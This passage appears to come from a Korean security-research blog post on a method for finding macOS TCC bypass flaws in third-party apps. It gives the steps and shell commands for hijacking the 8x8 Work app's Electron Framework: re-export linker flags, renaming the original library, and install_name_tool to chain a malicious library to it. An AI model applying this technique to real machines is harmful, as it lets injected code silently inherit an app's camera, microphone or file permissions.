 {% endraw %}

1. 라이브러리 컴파일

위에서 설명했듯이 애플리케이션이 기존 기호를 정상적으로 참조할 수 있도록 Re-Export를 진행해주어야 한다.


xcode에서 다음과 같은 컴파일 플래그를 추가해준다.

- `-xlinker`
- `-reexport_library /Applications/8x8 Work.app/Contents/Frameworks/Electron Framework.framework/Versions/A/Electron Framework`
1. 라이브러리 변조

위 과정을 수행한 이후에 컴파일된 악성 라이브러리의 파일 헤더를 살펴보면 기본적으로 다음과 같이 특수 경로 기반으로 Re-Export 라이브러리를 찾는다.


![14](/assets/img/2024-04-15-Methodology-for-discovering-TCC-Bypass-vulnerabilities-in-3rd-party-Applications.md/14.png)


따라서 우리는 악성 라이브러리가 원본 라이브러리를 참조하도록 변경해주어야 한다.


이는 Apple의 built-in 도구인 `install_name_tool`을 통해 변경해줄 수 있다.


원본 라이브러리는 로드되지 않도록 이름을 변경해준 후에 `install_name_tool`을 통해 악성 라이브러리가 원본 라이브러리를 참조하도록 변경한다.


{% raw %}
```bash
$ mv /Applications/8x8 Work.app/Contents/Frameworks/Electron Framework.framework/Versions/A/Electron\ Framework /Applications/8x8 Work.app/Contents/Frameworks/Electron Framework.framework/Versions/A/_Electron\ Framework

$ install_name_tool -change "@rpath/poc.framework/Versions/A/poc" /Applications/8x8\ Work.app/Contents/Frameworks/Electron\ Framework.framework/Versions/A/_Electron\ Framework ./poc
```
{% endraw %}


![15](/assets/img/2024-04-15-Methodology-for-discovering-TCC-Bypass-vulnerabilities-in-3rd-party-Applications.md/15.png)
